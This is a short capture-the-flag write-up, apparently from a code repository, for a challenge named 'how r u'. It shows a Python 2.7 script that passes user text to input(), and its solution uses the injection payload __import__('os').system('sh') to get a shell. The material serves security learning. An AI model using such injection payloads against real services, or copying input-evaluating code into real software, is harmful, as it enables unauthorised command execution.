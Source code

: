 # how r u

## challenge

```py
#!/usr/bin/env python2.7
try:
        input("hello! how are you feeling today? > ")
except:
        print("hello! how are you feeling today? > ")
```

## solution

this uses `input` and not `raw_input`. this is super dangerous in python 2.7 bc we can just put in python code and it will execute it :skull:

we can just type in `__import__('os').system('sh')` to win lol
